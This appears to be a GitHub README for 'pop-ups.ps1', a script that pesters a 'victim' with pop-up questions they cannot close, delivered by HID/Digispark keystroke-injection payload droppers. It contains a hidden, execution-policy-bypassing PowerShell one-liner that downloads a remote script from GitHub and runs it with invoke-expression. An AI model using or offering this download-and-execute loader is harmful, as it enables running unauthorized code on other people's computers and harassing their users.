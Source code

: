 ![alt text](https://github.com/d0cax/d0cax/blob/main/Screenshot%202024-08-02%20001147.png)

## pop-ups.ps1

#### Description
A script to run a .exe file which asks multiple questions to victim without being able to be closed.

```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://raw.githubusercontent.com/d0cax/pop-ups/main/PopUps.ps1?dl=1; invoke-expression $pl
```
#### Usage 
Check out my payload dropper for HIDs or digisparks for this script.
* [Payload.txt](https://github.com/d0cax/pop-ups/blob/main/Payload.txt)
* [Payload.ino](https://github.com/d0cax/pop-ups/blob/main/Payload.ino)

#### Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)
* [I am Jakoby](https://github.com/I-Am-Jakoby/)
